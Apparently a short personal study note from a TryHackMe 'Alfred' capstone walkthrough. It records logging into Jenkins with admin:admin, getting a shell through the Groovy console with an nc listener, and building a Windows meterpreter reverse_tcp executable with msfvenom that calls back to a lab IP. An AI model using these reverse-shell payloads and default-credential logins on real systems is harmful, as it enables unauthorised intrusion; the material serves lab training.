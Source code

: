 Logged in jenkins with `admin : admin`[[PNPT/WPE/Capstones/Alfred - THM/Enumeration|Enumeration]]

# Gaining Shell
---
![[Pasted image 20250420150637.png]]
- Paste this `shell`(replace bash with cmd.exe): https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6
- [[Jenkins Groovy Shell]]
- `nc -lnvp 4444`
- ![[Pasted image 20250420150954.png]]

# Gaining meterpreter shell
----
- Get an `x86`shell using payload `windows/meterpreter/reverse_tcp`web delivery
	- ![[Pasted image 20250420152003.png]]
- Generate msfvenom executable with `meterpreter/x64`so that we have `x64`architecture:
	- `msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.8.98.106 lport=443 -f exe -o rev.exe`
- Upload this with previous shell and setup `multi/handler`with payload `windows/x64/meterpreter/reverse_tcp`then run the executable:
	- ![[Pasted image 20250420152142.png]]

